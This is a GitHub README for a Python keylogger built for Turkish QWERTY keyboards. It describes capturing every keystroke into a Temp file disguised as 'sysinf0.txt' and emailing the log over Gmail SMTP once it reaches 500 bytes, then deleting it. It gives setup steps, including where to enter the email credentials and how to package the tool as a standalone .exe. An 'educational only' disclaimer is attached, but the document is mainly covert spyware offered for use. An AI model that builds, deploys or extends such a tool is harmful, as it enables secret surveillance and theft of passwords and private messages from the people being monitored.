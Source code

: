 # Turkish_QWERTY_Keylogger

A simple keylogger written in Python, compatible with **Turkish QWERTY keyboards**. It records keystrokes, stores them in a local file, and sends their contents via email once the log file reaches a specific size.

> ⚠️ **DISCLAIMER:** This project is intended **for educational and self-testing purposes only**. Monitoring computer activity without explicit permission is illegal and unethical. The developer is not responsible for any misuse of this software.

---

## 🚀 Installation

1. **Install dependency:**

   ```bash
   pip install pynput
   ```

2. **Enter your sender and receiver email credentials in the code exactly as below:**

   ```python
   Structure["From"] = "EnterSenderMail@gmail.com"
   Structure["To"] = "EnterRecipientMail@gmail.com"
   server.login("EnterUsername","EnterPassword")
   ```

3. *(Optional)* Convert to `.exe`:

   ```bash
   pip install pyinstaller
   pyinstaller --onefile keylogger.py
   ```

---

## 📁 Log File Location

Keystrokes are saved to:

```
C:/Users/<username>/AppData/Local/Temp/sysinf0.txt
```

Once the file size reaches **500 bytes**, its contents are emailed and the file is automatically deleted.

---

## ⚙️ How It Works

- Every keystroke is captured via `Listener`.
- Turkish Q keyboard logic is handled using **Shift**, **CapsLock**, and **AltGr** conversions.
- After each batch of 10 characters, logs are written to the file.
- A background thread checks file size periodically.
- When the threshold is exceeded, the log file is emailed via SMTP.

---

## 📌 Notes

- For Gmail SMTP, you may need to enable **"Allow less secure apps"** under your Google account.
- Use only on **your own device for test/learning purposes.**
- All misuse is solely the user's responsibility.

---

## 👨‍💻 Developer

Utku B.

<!-- patched -->
